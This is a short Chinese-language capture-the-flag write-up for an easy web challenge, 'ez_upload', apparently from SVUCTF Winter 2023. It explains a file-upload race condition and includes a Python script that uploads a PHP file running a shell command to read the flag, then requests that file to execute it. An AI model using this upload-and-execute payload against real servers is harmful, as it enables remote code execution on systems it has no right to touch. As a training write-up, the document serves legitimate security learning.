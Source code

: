 # 上传？上传！

- 作者：Cee
- 参考：SVUCTF-WINTER-2023
- 难度：Easy
- 分类：Web
- 镜像：[svuctf-winter-2023/ez_upload](https://ghcr.io/svuctf/svuctf-winter-2023/ez_upload:latest)
- 端口：80

## 题目描述

老表说这一题很ez

## 题目解析

文件上传的条件竞争 Enjoy your Happy New Year Day! Best wishes!!!

题目可以使用两种解决办法 一种是python脚本 一种是使用burp

脚本如下

```python
import requests
import concurrent.futures
import threading

url = "" #填写你的url
session = requests.session()

# upload file
files = {'upload': ('xxx.php', '<?php system("cat ../../flag");')}
try:
    session.post(url=url, files=files, timeout=1)
except requests.exceptions.ReadTimeout:
    pass

# access file
resp = session.get(f"{url}/upload/xxx.php")  # 你的shell php
print(resp.text)
```

burp suite 的使用方法有空教你们 原理大差不差 都是竞争
